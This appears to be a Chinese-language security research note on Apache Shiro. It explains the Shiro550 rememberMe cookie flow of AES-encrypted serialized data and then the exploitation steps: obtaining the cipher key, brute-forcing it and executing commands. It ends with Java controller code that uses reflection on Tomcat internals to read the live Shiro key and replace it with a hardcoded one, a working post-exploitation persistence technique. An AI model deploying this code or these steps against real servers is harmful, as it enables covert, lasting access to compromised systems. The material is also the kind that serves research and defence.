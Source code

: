 前置基础
---

Apache Shiro是一个功能强大且易于使用的Java安全框架，功能包括身份验证，授权，加密和会话管理。 


相关漏洞
---

### Shiro550 CVE-2016-4437

```
git clone https://github.com/apache/shiro.git  
cd shiro
git checkout shiro-root-1.2.4
```

登陆时-设置rememberMe-记录用户登录的凭证 

- 序列化用户身份"user"
- 对user进行AES加密，密钥为常量
- base64编码
- 设置到cookie中的rememberme字段



登陆后-rememberMe解密-识别用户身份

- 读取cookie中rememberMe值
- base64解码
- AES解密
- 反序列化



### Shiro721 CVE-2019-12422



研究利用
---

### Key 修改

测试环境

- shiro 1.2.24

#### 获取key

- 方式1：getCipherKey()

![image](https://user-images.githubusercontent.com/55024146/161286812-4f10b51d-135f-4e24-9132-aa43ea746dcd.png)

- 方式2：爆破

![image](https://user-images.githubusercontent.com/55024146/161287067-6d227543-d730-4ad8-9484-9caf49336c13.png)

#### 修改key

##### 方式1: 成员变量

![image](https://user-images.githubusercontent.com/55024146/161287102-ac5d6877-1e61-4e2a-a206-df660cd9befe.png)


![image](https://user-images.githubusercontent.com/55024146/161287150-04542e2c-098c-4954-b49e-4adbeb828f67.png)

爆破密钥

![image](https://user-images.githubusercontent.com/55024146/161287202-39cfb0fc-45f6-4642-9fd6-3622c3b9ef94.png)


执行命令

![image](https://user-images.githubusercontent.com/55024146/161287244-6bcbddd6-9f4b-4277-998c-693a64ad1309.png)

##### 方式2: 成员方法 setCipherKey

![image](https://user-images.githubusercontent.com/55024146/161287293-51bead16-961b-4799-8a58-795fc0d8bbf5.png)

#### 相关代码
`仅为实验性代码`

```java
package com.example.controller;
import org.apache.catalina.core.ApplicationFilterConfig;
import org.apache.catalina.core.StandardContext;
import org.apache.catalina.loader.WebappClassLoaderBase;
import org.apache.shiro.web.mgt.CookieRememberMeManager;
import org.apache.tomcat.util.descriptor.web.FilterDef;
import org.springframework.stereotype.Controller;
import org.springframework.web.bind.annotation.RequestMapping;
import javax.servlet.http.HttpServletResponse;
import java.lang.reflect.Field;
import java.util.Base64;
import java.util.Map;

@Controller
public class ShiroKeyController {
    @RequestMapping(value = "/getKey")
    public void getShiroKey(HttpServletResponse resp){
        try{
            byte[] key = new CookieRememberMeManager().getCipherKey();
            resp.getWriter().write("shiro key: \n" + new String(Base64.getEncoder().encode(key)));
        }catch (Exception ignored){}

    }
    @RequestMapping(value = "/changeKey")
    public void changeShiroKey(HttpServletResponse resp){
        try {
            WebappClassLoaderBase webappClassLoaderBase = (WebappClassLoaderBase) Thread.currentThread().getContextClassLoader();
            StandardContext standardContext = (StandardContext) webappClassLoaderBase.getResources().getContext();
            Field Configs = Class.forName("org.apache.catalina.core.StandardContext").getDeclaredField("filterConfigs");
            Configs.setAccessible(true);
            Map filterConfigs = (Map) Configs.get(standardContext);
            ApplicationFilterConfig applicationFilterConfig = (ApplicationFilterConfig) filterConfigs.get("shiroFilterFactoryBean");
            Field filterDef = getField(applicationFilterConfig,"filterDef");
            FilterDef filterDefIns = (FilterDef)filterDef.get(applicationFilterConfig);
            Field filter = getField(filterDefIns,"filter");
            Object filterIns = filter.get(filterDefIns);
            Field securityM = getField(filterIns,"securityManager");
            org.apache.shiro.mgt.SecurityManager securityInstance = (org.apache.shiro.mgt.SecurityManager)securityM.get(filterIns);
            CookieRememberMeManager cookieRememberMeManager = (CookieRememberMeManager) getField(securityInstance,"rememberMeManager").get(securityInstance);
            byte[] cipherKey = java.util.Base64.getDecoder().decode("2AvVhdsgUs0FSA3SDFAdag==");
            // cookieRememberMeManager.setCipherKey(cipherKey);
            setFieldValue(cookieRememberMeManager,"encryptionCipherKey",cipherKey);
            setFieldValue(cookieRememberMeManager,"decryptionCipherKey",cipherKey);
            resp.getWriter().write("new shiro key: \n" + new String(Base64.getEncoder().encode(cipherKey)));
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    public static void setFieldValue(Object object,String fieldName,Object fieldValue) throws Exception {
        Field field =  getField(object,fieldName);
        field.set(object,fieldValue);
    }

    public static Field getField(Object object,String fieldName) {
        Class<? extends Object> clas = object.getClass();
        Field field = null;
        while (clas != Object.class){
            try {
                field = clas.getDeclaredField(fieldName);
                break;
            } catch (NoSuchFieldException e){
                clas = clas.getSuperclass();
            }
        }
        if (field != null){
            field.setAccessible(true);
            return field;
        }else {
            return null;
        }
    }
}
```
